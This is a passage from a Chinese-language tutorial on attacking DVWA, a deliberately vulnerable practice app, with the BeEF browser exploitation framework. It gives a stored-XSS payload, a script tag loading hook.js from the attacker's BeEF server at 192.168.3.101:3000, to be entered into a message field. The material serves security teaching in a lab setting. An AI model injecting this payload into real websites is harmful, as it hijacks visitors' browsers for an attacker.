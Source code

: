 <p><img src="assets/1923eabb0edd49cb88ef875a0026d767.jpg" alt="图片" /></p>

<p>我们选择DVWA的存储型XSS攻击来做测试，让你可以更好地理解这款工具。</p>

<p>那么在利用BeEF前，我们首先需要进行XSS攻击。</p>

<p><img src="assets/5fcf74284b904511aa7a3edcb8453d61.jpg" alt="图片" /></p>

<p>和之前我们手动攻击一样，需要在Message框内输入恶意负载，由于我们BeEF工具所在的服务器地址为192.168.3.101，所以我们将负载设置为：</p>

<pre><code class="language-javascript">&lt;script src=&quot;http://192.168.3.101:3000/hook.js&quot;&gt;&lt;/script&gt;
</code></pre>
